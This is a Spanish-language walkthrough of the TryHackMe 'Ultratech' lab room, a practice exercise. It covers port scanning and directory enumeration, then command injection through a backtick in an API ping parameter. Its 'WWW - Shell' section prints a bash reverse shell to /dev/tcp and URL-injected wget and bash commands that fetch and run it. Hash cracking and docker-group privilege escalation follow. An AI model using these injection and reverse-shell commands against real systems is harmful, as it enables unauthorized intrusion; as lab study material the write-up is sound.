



TryHackMe - Ultratech

Contenido
| Titulo | Ultratech |
|---|---|
| Room | Ultratech |
| Info | The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing |
| Puntos | 2018 |
| Dificultad | Media |
| Maker | lp1 |
NMAP
Escaneo de puerto tcp, en el cual nos muestra varios puertos abiertos.
# Nmap 7.80 scan initiated Tue Feb 25 22:11:48 2020 as: nmap -p- -T4 -sV -o nmap_scan 10.10.223.47
Nmap scan report for 10.10.223.47
Host is up (0.18s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp open http Node.js Express framework
31331/tcp open http Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 25 22:36:00 2020 -- 1 IP address (1 host up) scanned in 1451.43 seconds
WFUZZ - Puerto 8081
Utilizamos WFUZZ para encontrar directorios y archivos.
root@aoiri:~/tryhackme/ultratech# wfuzz -w /usr/share/wordlists/dirb/common_nofirst10.txt -u http://10.10.223.47:8081/FUZZ --sc 200
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 2.4 - The Web Fuzzer *
********************************************************
Target: http://10.10.223.47:8081/FUZZ
Total requests: 4586
===================================================================
ID Response Lines Word Chars Payload
===================================================================
000000001: 200 0 L 3 W 20 Ch ""
000000487: 200 0 L 8 W 39 Ch "auth"
Total time: 429.3228
Processed Requests: 4586
Filtered Requests: 4584
Requests/sec.: 10.68193
GOBUSTER - Puerto 31331
Ya que en este puerto esta corriendo el servicio de APACHE utilizamos gobuster para encontrar directorios y archivos.
root@aoiri:~/tryhackme/ultratech# gobuster dir -u http://10.10.223.47:31331 -w /usr/share/wordlists/dirb/common_nofirst10.txt -t 15 -x php,html,txt -q
/css (Status: 301)
/favicon.ico (Status: 200)
/images (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/javascript (Status: 301)
/js (Status: 301)
/partners.html (Status: 200)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/what.html (Status: 200)
root@aoiri:~/tryhackme/ultratech#
WWW - Shell
Enumeramos las paginas que encontramos en el puerto 31331 y al visitar partners.html encontramos una panel de inicio de sesion.

Analizamos el codigo fuente y encontramos un archivo de javascript en el que nos muestra una ruta nueva con su parametro de la API que esta corriendo en el servicio de Node.js en el puerto 8081.

En el parametro ingresamos nuestra IP, y ejecutamos tcpdump para capturar paquetes ICMP.

Vemos que la maquina nos hace ping. Utilizamos “Command Injection” para poder ejecutar comandos, utilizamos ` (acento grave | codigo ascii 96) para “escapar” la ejecucion del comando ping. Creamos un archivo bash en el que escribimos nuestra shell inversa, en la ruta de la API ejecutamos comandos para: descargar el archivo y ejecutar el archivo.
shell.sh:
bash -i >& /dev/tcp/10.8.1.72/4242 0>&1
Commandos:
#Primer comando
wget 10.8.1.72/shell.sh -o shell.sh
#Segundo Comando
bash shell.sh
Ejecutamos los comandos como parametro en la URL:
view-source:http://10.10.223.47:8081/ping?ip=`wget 10.8.1.72/shell.sh -o shell.sh`
view-source:http://10.10.223.47:8081/ping?ip=`bash shell.sh`
Una vez hecho esto, logramos obtener una shell con el usuario www:

USER - r00t
Dentro de los archivos de la maquina encontramos una base de datos, la pasamos a nuestra maquina para poder ver los datos que tiene.

En la base de datos encontramos la tabla de ‘users’ en donde encontramos dos usuarios y su contraseña encriptada:

Utilizamos crackstation para crackear las hashes:

Vemos que los usuarios registrados en la maquina aparece r00t utilizamos la contraseña crackeada y logramos obtener una shell con este usuario.

FTP-SSH
De igual forma con las credenciales de r00t podemos ingresar al servicio de FTP y SSH. 
PRIVILEGE ESCALATION
Una pequeña enumeracion basta para poder tener la idea de lo que debemos de hacer, en este caso encontramos que el usuario r00t pertenece al grupo de docker. Utilizamos docker para obtener una shell con el usuario root.